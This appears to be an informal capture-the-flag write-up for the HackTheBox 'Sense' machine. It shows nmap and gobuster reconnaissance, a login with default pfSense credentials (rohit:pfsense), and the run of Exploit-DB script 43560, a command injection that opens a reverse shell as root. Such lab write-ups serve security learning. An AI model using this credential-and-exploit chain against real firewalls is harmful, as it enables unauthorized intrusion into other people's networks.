 # recon
- nmap
```
80/tcp  open  http       lighttpd 1.4.35
|_http-server-header: lighttpd/1.4.35
|_http-title: Did not follow redirect to https://sense.htb/
|_https-redirect: ERROR: Script execution failed (use -d to debug)
443/tcp open  ssl/https?
|_ssl-date: TLS randomness does not represent time
```
- linux like os -> ping ttl
- http://sense.htb give me an error -> 
```
Potential DNS Rebind attack detected, see http://en.wikipedia.org/wiki/DNS_rebinding
Try accessing the router by IP address instead of by hostname.
```
- 200 with login page went access web page by entering IP addr
- /index.php :PF Sense login page
  - defualt admin didnt works [link](https://pfsense-docs.readthedocs.io/en/latest/usermanager/pfsense-default-username-and-password.html)
- /index.html : dragonfly bsd

## gobuster
I use to wordlist this time, the first one I use for big.txt but I didnt get any good hit, I then try with the lowercase meddium and yea I got good hint on 2 .txt files
```console
$ gobuster dir -u https://10.10.10.60/ -x txt,php,html -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -t 54 -k

/classes (Status: 301)
/css (Status: 301)
/edit.php (Status: 200)
/exec.php (Status: 200)
/favicon.ico (Status: 200)
/graph.php (Status: 200)
/help.php (Status: 200)
/includes (Status: 301)
/index.php (Status: 200)
/index.html (Status: 200)
/installer (Status: 301)
/interfaces.php (Status: 200)
/javascript (Status: 301)
/license.php (Status: 200)
/pkg.php (Status: 200)
/stats.php (Status: 200)
/status.php (Status: 200)
/system.php (Status: 200)
/themes (Status: 301)
/tree (Status: 301)
/widgets (Status: 301)
/wizards (Status: 301)
/wizard.php (Status: 200)
/xmlrpc.php (Status: 200)
/~sys~ (Status: 403)
/changelog.txt
/system-users.txt
```
- /changelog.txt
```
# Security Changelog 

### Issue
There was a failure in updating the firewall. Manual patching is therefore required

### Mitigated
2 of 3 vulnerabilities have been patched.

### Timeline
The remaining patches will be installed during the next maintenance window
```
okey so 1 vulnerability still exist.

- /system-users.txt
```
####Support ticket###

Please create the following user


username: Rohit
password: company defaults
```
so we get the cresential... but password? company defaults??? I guess it is the defualt password for pf sense which we found in the link above. now try to login with **rohit:pfsense**


Boom we are in!
-systeminfo
```
2.1.3-RELEASE (amd64)
built on Thu May 01 15:52:13 EDT 2014
FreeBSD 8.3-RELEASE-p16
```
As we are already know from `/changelog.txt`. there is a serious vuln on the firewall which is not patch yet, so let google and find out.


after some googling, I found exploit this version. [link](https://www.exploit-db.com/exploits/43560). so let use searchsploit to get the exploit script and lunch our attack
```
kali@kali:~/HTB/sense$ searchsploit pfSense 2.1.4
--------------------------------------------------------------- ---------------------------------
 Exploit Title                                                 |  Path
--------------------------------------------------------------- ---------------------------------
pfSense < 2.1.4 - 'status_rrd_graph_img.php' Command Injection | php/webapps/43560.py
--------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
kali@kali:~/HTB/sense$ searchsploit -m php/webapps/43560.py
  Exploit: pfSense < 2.1.4 - 'status_rrd_graph_img.php' Command Injection
      URL: https://www.exploit-db.com/exploits/43560
     Path: /usr/share/exploitdb/exploits/php/webapps/43560.py
File Type: Python script, ASCII text executable, with CRLF line terminators

Copied to: /home/kali/HTB/sense/43560.py
```
let check the exploit script
```
kali@kali:~/HTB/sense$ python3 43560.py -h
usage: 43560.py [-h] [--rhost RHOST] [--lhost LHOST] [--lport LPORT] [--username USERNAME]
                [--password PASSWORD]

optional arguments:
  -h, --help           show this help message and exit
  --rhost RHOST        Remote Host
  --lhost LHOST        Local Host listener
  --lport LPORT        Local Port listener
  --username USERNAME  pfsense Username
  --password PASSWORD  pfsense Password
```
okey let run it
```
kali@kali:~/HTB/sense$ python3 43560.py --rhost 10.10.10.60 --lhost tun0 --lport 6969 --username rohit --password pfsense
CSRF token obtained
Running exploit...
Exploit completed
```
boom we got shell....... AS ROOT!!!


go grab flags, GLHF
